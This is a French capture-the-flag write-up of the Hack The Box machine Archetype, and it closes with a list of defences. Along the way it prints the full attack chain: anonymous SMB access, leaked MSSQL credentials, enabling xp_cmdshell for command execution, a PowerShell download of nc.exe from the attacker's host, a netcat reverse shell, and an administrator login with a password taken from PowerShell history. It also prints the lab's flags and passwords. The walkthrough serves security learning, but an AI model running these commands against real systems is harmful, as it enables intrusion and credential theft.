







> Plateforme : **Hack The Box** — Starting Point (Tier 2)

## Informations

- **Catégorie :** Windows / MSSQL (credentials exposés → RCE → réutilisation de mot de passe)
- **Difficulté :** Very Easy
- **Auteur du write-up :** 3ch0
- **Services :** `135/139/445` (SMB), `1433` (MSSQL 2017), `5985` (WinRM) — Windows Server 2019
- **Flag user :** `3e7b102e78218e935bf3f4951fec21a3`
- **Flag root :** `b91ccec3305e98240082d4474b848528`

---

## 1. Reconnaissance

```bash
nmap -sC -sV 10.129.9.137
```

```text
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds   Windows Server 2019 Standard
1433/tcp open  ms-sql-s       Microsoft SQL Server 2017 RTM
5985/tcp open  http           Microsoft HTTPAPI 2.0 (WinRM)
```

Deux points d'entrée notables : **SMB** (445) et surtout **MSSQL** (1433). WinRM (5985) est ouvert — à garder en tête pour un accès authentifié ultérieur.



---

## 2. SMB anonyme → partage `backups`

Listing des partages en session null :

```bash
smbclient -L //10.129.9.137/ -N
```

```text
Sharename    Type    Comment
---------    ----    -------
ADMIN$       Disk    Remote Admin
backups      Disk
C$           Disk    Default share
IPC$         IPC     Remote IPC
```

Le partage **`backups`** n'est pas administratif (pas de `$`) → on tente l'accès anonyme :

```bash
smbclient //10.129.9.137/backups -N
smb: \> get prod.dtsConfig
```



---

## 3. Credentials MSSQL en clair

```bash
cat prod.dtsConfig
```

```xml
<ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;
Initial Catalog=Catalog;Provider=SQLNCLI10.1;...</ConfiguredValue>
```

Un fichier de configuration SSIS expose la **chaîne de connexion** de la base : utilisateur `ARCHETYPE\sql_svc`, mot de passe `M3g4c0rp123`. `SQLNCLI10.1` indique bien un compte **SQL Server** (port 1433), pas WinRM — d'où l'échec si on tente `evil-winrm` avec ce couple.

---

## 4. Connexion MSSQL → RCE (xp_cmdshell)

```bash
impacket-mssqlclient ARCHETYPE/sql_svc:'M3g4c0rp123'@10.129.9.137 -windows-auth
```

`sql_svc` est `sysadmin` → on réactive la procédure `xp_cmdshell` (désactivée par défaut) qui permet d'exécuter des commandes système :

```sql
SQL> enable_xp_cmdshell
SQL> xp_cmdshell whoami
```

```text
archetype\sql_svc
```



> Au prompt `SQL>`, tout est interprété comme du SQL : les commandes système doivent être préfixées par `xp_cmdshell`.

### Flag user

```sql
SQL> xp_cmdshell type C:\Users\sql_svc\Desktop\user.txt
```

```text
3e7b102e78218e935bf3f4951fec21a3
```

---

## 5. Reverse shell

Pour une énumération confortable, on passe d'un RCE « une commande » à un vrai shell. On héberge `nc.exe` côté Kali et on le fait exécuter par la cible.

```bash
# Kali
cp /usr/share/windows-resources/binaries/nc.exe .
python3 -m http.server 80
nc -lvnp 4444
```

```sql
-- MSSQL
SQL> xp_cmdshell "powershell -c wget http://10.10.15.244/nc.exe -o C:\Users\sql_svc\Downloads\nc.exe"
SQL> xp_cmdshell "C:\Users\sql_svc\Downloads\nc.exe -e cmd.exe 10.10.15.244 4444"
```

```text
connect to [10.10.15.244] from 10.129.9.137
C:\Users\sql_svc\Downloads> whoami
archetype\sql_svc
```



---

## 6. Privesc — mot de passe admin dans l'historique PowerShell

Énumération avec **winPEAS** (déposé de la même façon, exécuté via `powershell -ep bypass -File winpeas.ps1`). La section *PowerShell History* pointe vers l'historique de la console de `sql_svc` :



Lecture du contenu

```batch
type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

```text
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
exit
```



Un administrateur a monté le partage en tapant son mot de passe **en argument** → gravé dans l'historique : `MEGACORP_4dm1n!!`.

---

## 7. Accès administrator → flag root

Avec ce mot de passe, on ouvre un shell privilégié (SMB/445 → `wmiexec`, ou WinRM/5985 → `evil-winrm`) :

```bash
impacket-wmiexec administrator@10.129.9.137
# MEGACORP_4dm1n!!
```

```batch
C:\> type C:\Users\Administrator\Desktop\root.txt
b91ccec3305e98240082d4474b848528
```



**Flag root :** `b91ccec3305e98240082d4474b848528`

---

## Récapitulatif de la chaîne

1. **nmap** → SMB (445) + MSSQL (1433) + WinRM (5985).
2. **SMB anonyme** → partage `backups` → `prod.dtsConfig`.
3. Chaîne de connexion → **credentials MSSQL** `sql_svc:M3g4c0rp123`.
4. **mssqlclient** (`-windows-auth`) → `xp_cmdshell` → **RCE** → flag user.
5. **Reverse shell** via `nc.exe` téléchargé en PowerShell.
6. **winPEAS** → `ConsoleHost_history.txt` → mot de passe **administrator** `MEGACORP_4dm1n!!`.
7. **wmiexec administrator** → flag root.

> **Concept clé :** Archetype illustre la chaîne « secret exposé → RCE → réutilisation de credential ». (1) Un **fichier de configuration lisible en SMB anonyme** livre une chaîne de connexion avec mot de passe en clair — les partages non administratifs ouverts à l'anonyme sont un classique de fuite. (2) Le compte de service MSSQL étant `sysadmin`, **`xp_cmdshell`** transforme un accès base en exécution de commandes OS : cette procédure, désactivée par défaut, ne devrait jamais être réactivable par un compte applicatif. (3) La privesc ne repose sur aucune faille technique mais sur une **hygiène humaine** : un mot de passe administrateur passé en argument de commande se retrouve gravé dans `ConsoleHost_history.txt` (l'équivalent Windows du `.bash_history`), et il est réutilisé tel quel pour le compte admin. Défenses : pas de secrets en clair dans des fichiers partagés, compte MSSQL non-sysadmin avec `xp_cmdshell` verrouillé, et jamais de mot de passe en ligne de commande (utiliser des identifiants gérés / coffre-fort).

---

***— 3ch0***
